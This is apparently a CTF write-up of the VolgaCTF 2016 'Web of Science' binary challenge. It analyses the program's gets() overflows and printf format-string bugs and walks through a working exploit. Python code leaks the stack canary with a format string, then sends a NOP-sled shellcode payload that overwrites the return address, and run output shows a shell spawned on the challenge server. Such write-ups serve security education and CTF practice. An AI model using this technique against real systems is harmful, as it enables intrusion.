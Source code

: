 +++
title = "VolgaCTF 2016 - Web of Science"
author = "hugsy"
date = 2016-03-28T00:00:00Z
updated = 2016-03-28T00:00:00Z

["taxonomies"]
tags = ["pwn","volgactf-2016","x86"]
categories = ["ctf"]
+++

### Info ###


```bash
gef➤  !file ./web_of_science
./web_of_science: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=85e0df26435ee411258ad39668c9700b1ebadec9, stripped
gef➤  checksec
[+] checksec for '/home/hugsy/ctf/volgactf_2016/web_of_science'
Canary:                                           Yes
NX Support:                                       No
PIE Support:                                      No
RPATH:                                            No
RUNPATH:                                          No
Partial RelRO:                                    Yes
Full RelRO:                                       No
```

It's a simple dynamically linked binary for x86-64. We have a canary stack
however the stack is executable (the '90s says hello!), which `gef`
confirms instantly:
{{ img(src="https://i.imgur.com/LfT3dt1.png" title="exec-stack") }}


### Vulnerabilities ###

`web_of_science` is a tool to manage scientific papers.
The binary is full of vulnerabilities, many of which were automatically detected
by the `format-string-helper` command from [GDB-GEF](https://github.com/hugsy/gef.git)

{{ img(src="https://i.imgur.com/cqYmZLi.png" title="fmt-str-gef") }}

Without any static analysis, we immediately spot that many (if not all)
`printf()` calls are vulnerable to format string vulnerabilities, where we
control the format field. That's good, we can leverage that later to bypass the
canary protection. So far, so good ☺


So what does the binary do? It starts by call the function at 0x04007CD which
checks if we are human by prompting us to solve an addition with randomly
generated integers. Pretty hardcore stuff, right?

Then we jump into serious business at 0x400E1C. The function offers a menu to
respectively add/delete/list/view papers and exit.

When adding a paper (`add_paper()` function), a stack buffer of 1096 bytes is
allocated on the stack. It is then possible to populate different fields of this
stack allocated paper as shown here:

{{ img(src="https://i.imgur.com/dTZmTgS.png" title="add-paper-fill-info") }}

When saving the stack buffer is then copied to the .bss segment:

```bash
.text:0000000000400BAD loc_400BAD:                             ; DATA XREF: .rodata:0000000000401240
.text:0000000000400BAD                 mov     eax, cs:nb_papers
.text:0000000000400BB3                 cdqe
.text:0000000000400BB5                 shl     rax, 6
.text:0000000000400BB9                 mov     rdx, rax
.text:0000000000400BBC                 shl     rdx, 4
.text:0000000000400BC0                 add     rax, rdx
.text:0000000000400BC3                 add     rax, offset base_papers
.text:0000000000400BC9                 mov     rdx, rax
.text:0000000000400BCC                 lea     rsi, [rbp+paper]
.text:0000000000400BD3                 mov     eax, 88h
.text:0000000000400BD8                 mov     rdi, rdx
.text:0000000000400BDB                 mov     rcx, rax
.text:0000000000400BDE                 rep movsq               ; memcpy(base_paper[i], paper_stack)
.text:0000000000400BE1                 mov     eax, cs:nb_papers
.text:0000000000400BE7                 add     eax, 1          ; increments the number of paper
.text:0000000000400BEA                 mov     cs:nb_papers, eax
.text:0000000000400BF0                 jmp     short loc_400BF9
```

One stricking thing is of course the massive use of `gets()` everywhere for user
input. So we think immediately to stack-based buffer overflow.

The `view_paper()` function (at 0x400D52) receives a pointer to a paper and
displays its information using `printf()` - which makes us understand what
triggered the `gef` plugin for format string.

{{ img(src="https://i.imgur.com/f7hs6qZ.png" title="view-paper") }}


### Exploitation ###

The exploitation process will go something like this:

   1. Use of the format string vulnerabilities to leak stack until we get the
      canary using `printf()`
   1. Overflow one of the stack allocated buffer using `gets()`, correctly
      insert the canary, and jump to our stack-based shellcode.

So this lines up the following sequential steps:

   - Create a paper to allocate a 1096 byte stack buffer
```python
    ok("Adding a paper")
    s.read_until("> ")
    s.write("1\n") # add_paper

    ok("Adding paper name")
    s.read_until("> ")
    s.write("1\n") # add_paper_name
    s.read_until("Paper name: ")
    s.write('A'*10+"\n")
```

   - Using the abstract field of the paper to store our format string to leak
    the canary, and the stack address (for returning to it).
```python
    ok("Adding paper abstract")
    s.read_until("> ")
    s.write("3\n") # add_paper_abstract
    s.read_until("Paper abstract: ")
    s.write("%7$p.%163$p" + "\n")
```
   A stack address was found at `"$7$p"` and the canary at `"%163$p"`.

   - We need to view the paper to actually trigger the format string information
     leak:
```python
    s.read_until("> ")
    s.write("5\n") # view_paper_info
    s.read_until("Abstract:\n\t")
    paper_addr, canary = s.read_until("\nTags:\n\t")[:-8].split('.', 1)
    paper_addr = int(paper_addr, 16)
    canary = int(canary, 16)
    ok("Got addr: %#x" % paper_addr)
    ok("Got canary: %#x" % canary)
```

   - And now, build our payload, overflow the buffer, insert the canary to get
   good karma, and make the `ret` at 0x400C0E fall back to our controlled
   buffer:
```python
    s.read_until("> ")
    s.write("1\n") # add_paper_name
    ok("Sending payload")
    payload = ""
    payload+= "\x90"*0x8
    payload+= SC
    payload+= "\x90"*(1096-len(payload))
    payload+= q_s(canary) + "JUNK"*2 + q_s(paper_addr)
    s.read_until("Paper name: ")
    s.write(payload + '\n')

    s.read_until("> ")
    s.write("6\n") # quit to trigger the ret
```

And the execution gives:
```bash
~/ctf/volgactf_2016 $  ./gef-exploit.py
[+] Connected to webofscience.2016.volgactf.ru:45678
[+] Passing checks
[+] Adding a paper
[+] Adding paper name
[+] Adding paper abstract
[+] Showing paper to leak the canary
[+] Got addr: 0x7fffffffe6e0
[+] Got canary: 0x675049f6baf95300
[+] Sending payload
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '

python -c "import pty;pty.spawn('/bin/bash')"
nobody@scweb1:/opt$ ls
flag_wos.txt  install  start_wos  web_of_science
nobody@scweb1:/opt$ cat flag_wos.txt
VolgaCTF{executable_st@ck_doesnt_cause_@ny_problems_d0es_it}
```

All done mate !


### Conclusion ###

Final word (or image):

{{ img(src="https://i.imgur.com/PjfFC2f.jpg" title="image_alt") }}

Full exploit is : [gef-exploit.py](https://gist.github.com/hugsy/deae32e1da40e7b8c754)

A write-up for `web_of_science_2` might as well come soon, stay tuned...
